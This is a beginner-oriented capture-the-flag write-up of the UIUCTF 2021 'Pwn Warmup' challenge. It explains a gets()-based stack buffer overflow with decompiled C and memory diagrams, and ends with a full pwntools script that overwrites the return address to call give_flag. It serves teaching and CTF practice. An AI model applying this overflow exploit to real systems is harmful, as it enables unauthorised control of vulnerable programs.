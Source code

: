 # Pwn Warmup - 50 pts, 214 solves
> Hmm this time we arent just going to give you the flag like last year... What can you do?!
> 
> nc pwn-warmup.chal.uiuc.tf 1337
> 
> challenge

`Pwn Warmup` was a pwn (binary exploitation) challenge in UIUCTF 2021, where I played with `TeamlessCTF`, placing 12th place overall. Although my team solved this challenge before I got a chance to during the CTF, I wanted to make a writeup for it anyways.

We first decompile the `main` function in Ghidra (Ghidra is a C decompiler developed by the NSA, and can be found at https://ghidra-sre.org/):

```C
void main(void)

{
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("This is SIGPwny stack3, go");
  printf("&give_flag = %p\n",give_flag);
  vulnerable();
  return;
}
```

It seems that the challenge first calls `setvbuf` to help input/output to work in the remote connection, and then prints out the address of the `give_flag` function. Then, the program calls the `vulnerable` function, which (of course) is vulnerable. Let's look at the decompilation:

```C
void vulnerable(void)

{
  char buf [8];
  
  gets(buf);
  return;
}
```

Hmmm... The program calls `gets()` on the `buf` variable. Let's read from the man page of `gets`:

```
DESCRIPTION
       Never use this function.

       gets()  reads  a  line  from  stdin into the buffer pointed to by s until either a terminating newline or EOF,
       which it replaces with a null byte ('\0').  No check for buffer overrun is performed (see BUGS below).
```

In case you didn't notice:

> Never use this function.

OK. So the program is using an insecure function. Why is `gets()` insecure? According to the man page, `gets` reads input from standard input until a newline, and then *writes it to memory*. No check for how much memory is being written to, so we can overwrite whatever we want in nearby memory by giving the program more input than it is prepared to handle. Let's visualize the memory:

```
|        buf[8]        |                       | saved ebp | saved eip |
------------------------------------------------------------------------
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

`buf` is the area we write to, and the saved ebp and saved eip are the places where the program has saved registers for when the program returns to the function from which it was called. If we overwrite it with an address, we can control where the program jumps to after the `vulnerable()` function is done. Luckily for us, the program has provided us with a `give_flag` function that prints out the flag. So our goal is to overwrite the saved eip with the address of give_flag.

**Sidenote: What are ebp and eip and why are they saved on the stack (memory) right now?**
The CPU of a computer has multiple registers, each able to hold a value. In a 32-bit program, the registers each hold 4 bytes (32 bits... see the connection between 32 bit programs and 32 bit registers). The ebp register stores the base address of the stack while the eip register stores the address of the current instruction the program is executing. When a program calls a function, it must store where to return to after the function is called. So, when a function is called ebp and eip are stored on the stack, and are returned to the registers when `ret` is called. So, if we overwrite the saved eip, we can hijack the control flow of the program because we are changing where the program jumps to after the function is finished.

How do we do this? Let's examine memory again.

Let's say we input `AAAAAAAA` into the program. Then the program writes the input to `buf`:

```
|        buf[8]        |                       | saved ebp | saved eip |
------------------------------------------------------------------------
41 41 41 41 41 41 41 41 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

The program functions as normal, because we did not give more input that it could take. But what if we inputted more text?

Let's say we inputted `AAAAAAAAAAAAAAAAAAAA` (24 `A`s) into the program. Now our memory looks like this:

```
|        buf[8]        |                       | saved ebp | saved eip |
------------------------------------------------------------------------
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
```

Our saved eip is now `0x41414141` (note that 0x41 is the hex value of `A` so our `A`s are getting written to the saved eip). This will cause a segmentation fault because the program is trying to jump to the address `0x41414141` but doesn't work because there isn't actually any memory at `0x41414141`. Progress! We crashed the program.

So what if we changed our `0x41414141` with something a little more controlled... Let's say the address of `give_flag`. Luckily, our program prints out the address of `give_flag` when we run it. So, all we need to do is:

- send 20 `A`s to get through `buf` and ebp
- send the address of `give_flag` to overflow eip

Hold on. We can't literally send the numbers that represent the address of `give_flag`, we need to send them in the format that the program expects addresses. We need to send the address as hex, and in *little endian*. This means that we translate our address from hex to ASCII and send it in backwards.

Now, this all seems kind of complicated. But don't fear! We have a trusty python package to do this for us, including formatting the address in little endian and sending those unprintable characters to the server!

We will use the `pwntools` python package, which has all sorts of tools for pwn challenges. We can start a pwntools script:

```python
#!/usr/bin/env python3

from pwn import * # import pwntools

conn = remote("pwn-warmup.chal.uiuc.tf", 1337) # connect to the remote server
``` 

OK! We have a script that will connect to the remote server. Now, we use our program to programatically get the address of `give_flag` that was printed out:

```python
conn.recvuntil("&give_flag = ")
give_flag = int(conn.recvline(), 0)
```

We recieve the input up to `&give_flag = `, then we recieve the rest of the line, which is simply the address in hex. We convert this to an `int`.

Now, it's time to build our payload. We first need 20 `A`s and then the address of `give_flag`. Remember the little endian stuff? Pwntools has a function, `p32`, that will format an address to little endian for 32-bit programs such as this one. (it uses `struct.pack` behind the scenes if you want to figure out what it's doing)

```python
payload = b"A" * 20 # 20 As
payload += p32(give_flag) # format our address in little endian
```

So now we have a payload that will overwrite the saved eip (the return address) with the address of `give_flag`. We send it with pwntools:

```python
conn.sendline(payload) # send the payload to the server
conn.stream() # print the output
```

And with that, we get the flag printed out for us.

Flag: `uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}`

Full solve script:

```python
#!/usr/bin/env python3

from pwn import *

conn = remote("pwn-warmup.chal.uiuc.tf", 1337)

conn.recvuntil("&give_flag = ")
give_flag = int(conn.recvline(), 0)

payload = b"A"*20
payload += p32(give_flag)

conn.sendline(payload)

conn.stream()
```
